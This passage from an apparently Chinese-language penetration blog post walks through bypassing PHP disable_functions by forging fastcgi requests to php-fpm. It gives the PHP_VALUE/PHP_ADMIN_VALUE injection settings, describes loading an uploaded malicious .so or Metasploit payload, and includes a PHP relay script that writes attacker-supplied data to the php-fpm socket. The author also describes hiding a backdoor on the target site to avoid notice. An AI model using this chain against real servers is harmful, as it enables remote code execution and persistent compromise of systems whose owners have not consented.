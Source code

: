 最后提示都是成功，检查其生成的动态链接库文件也是成功上传的，但终端始终无法开启，一直提示返回数据为空，起始以为是插件用的某个函数也被 php 给禁用了导致返回为空，也找到不其他可利用的漏洞，为此还卡了大半周的时间，后来准备查查资料，手动把利用方法实现一遍；

其实该方法的原理大致就是：php 是一门动态语言，但 `nginx` 是无法处理这些的，所以中间还有个 `fastcgi` 协议在牵线搭桥，可类比 `HTTP` 协议，nginx 将接受到的客户端请求转换成 fastcgi 协议格式的数据，而 php 模块中的 `php-fpm` 就是用来处理这些 fastcgi 协议数据的，然后再传给 php 解释器去处理，完成后结果数据又以之前同样的路径返回到浏览器客户端；所以一般在 Linux 服务器上启动 php 程序，都会启动一个叫 php-fpm 的服务，一般会监听本机的 `9000` 端口，或者套接字文件，nginx 的配置文件 fastcgi 访问地址也配成这个端口或文件，这些都是为了完成上述通信过程；

这里面可**利用**的点就是，绕过通往 nginx 的请求，直接与 php-fpm 服务沟通，理想情况就是由于配置失误导致 9000 监听在了外网接口而不是本机接口，当然这种情况也是极少数，但这也并不意味着监听本机就无法利用了，在 php 程序文件可写的前提下，可以在程序中通过 `curl` 接口向服务器本机 9000 端口发起请求（或 `stream_socket_client` 发起套接字文件通信请求），并且是模仿 fastcgi 客户端发送对应格式的数据，这样就能实现绕过 nginx 直接与 php-fpm 沟通；这种操作还有另一种说法，叫 **SSRF**（`Server-Side Request Forgery`），即**服务端请求伪造**，通过服务器去实现访问客户端正常不能访问到的内网资源；当然还有一个和他名字很像的手段： **CSRF**（`Cross-Site Request Forgery`，跨站请求伪造），只不过这个是盗用其他客户端的登录凭证；

可能这里还有个问题，这样绕了一圈去建立通信，最后不是还是会通过 php-fpm 吗，这样配置的函数限制依然存在，其实不然，直接和 php-fpm 沟通的话，它是支持**修改** php 配置的，就是 fastcgi 协议中的 `PHP_VALUE`, `PHP_ADMIN_VALUE` 这两个参数，比如可以设置这两个配置：

```bash
"PHP_VALUE": "auto_prepend_file = php://input"
"PHP_ADMIN_VALUE": "allow_url_include = On"
```

这会导致执行 php 程序之前包含 `HTTP` 中 `POST` 的数据，实现任意代码执行的目的，但即使这样也还是不行，因为这里的任意代码执行依然逃不开 php 配置文件的控制，所以就还需要更进一层，可以利用 `extension` 这个环境变量，设置执行脚本是要引入的动态链接库文件（Linux 下是 `.so`，Windows 下是 `.dll`）：

```bash
"PHP_VALUE": "extension = /xxx/xxx.so"
```

这就需要有任意文件上传权限，不过都开始研究限制绕过了，这点权限是肯定有的，然后就是编译构造自己的 `.so` 文件，并向其中添加要执行的系统命令，这样链接库文件在被引入的时候就会执行预定的命令，同时也不受 php 配置文件的限制；这个sao操作也是在研究那个插件代码时发现的 (¬‿¬)，同时也通过抓包找到了之前一直返回空数据的原因：

![fiddler-ant-fpm-request](https://img-blog.csdnimg.cn/8d4b636ac71446e59ab5d8b90e6b03ab.png)

原来插件一直在站点根目录读取配置的后门程序，之前为了掩人耳目是塞到了一个隐蔽的深层目录，所以一直获取不到数据返回空，也算是自己的配置失误，就是这里需要配置为后门程序所在目录：

![ant-plugin-disable-fun-4](https://img-blog.csdnimg.cn/d3794fd917964e3da0960c116943738b.png)


### 远程指令执行

目前虽然可以通过插件绕过 disable_functions 并正常使用虚拟终端，但后续并不打算这么做，插件的机理其实就是通过包含 `.so` 时执行里面插入的指令，查看生成的 `.so` 文件可以看到插入了这样一条命令：

![cmd-hexedit-ant-so](https://img-blog.csdnimg.cn/cc01eda30e2443dabc4f283ed5a3fa64.png)

其实就是利用远程指令执行运行了另一个 php 服务，自定义了端口，并且 `-n` 参数是不使用 php 配置文件的意思，这样就实现了绕过 `disable_functions`，方便让其他程序畅通无阻的运行虚拟终端，手段确实有趣，不过这里就大可不必了，都能执行命令了还要虚拟终端干啥，另外经过测试也发现这样连接有一定时效性，大概一分钟左右就会断开连接，原因未知，所以为了后续更愉快的玩耍，直接上 `msf payload`，生成 `elf-so` 格式的文件后上传站点，然后把自定义的 fastcgi 客户端(<https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75>)参数改下，让包含的 `.so` 文件为我们的 `payload` 文件以使其运行：

![cmd-edit-fpm-py](https://img-blog.csdnimg.cn/11349adc0f404953aae8846927fefef9.png)

运行后就会得到构造后的 `fastcgi` 协议数据（TCP数据流），让服务器 php 发送它就好，所以还需要服务端写个 php 程序来配合发送，这是使用使用套接字文件通信时的文件内容：
```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL);

$fp = stream_socket_client("unix:///tmp/php-cgi-56.sock", $errno, $errstr, 30);
$url = $_GET['url'];

if (!$fp) {
    echo "Errno: " . "$errstr ($errno)<br />\n";
} else {
    try {
        fwrite($fp, base64_decode($url));
        var_dump(fread($fp, 8192));
    } catch (Exception $e) {
```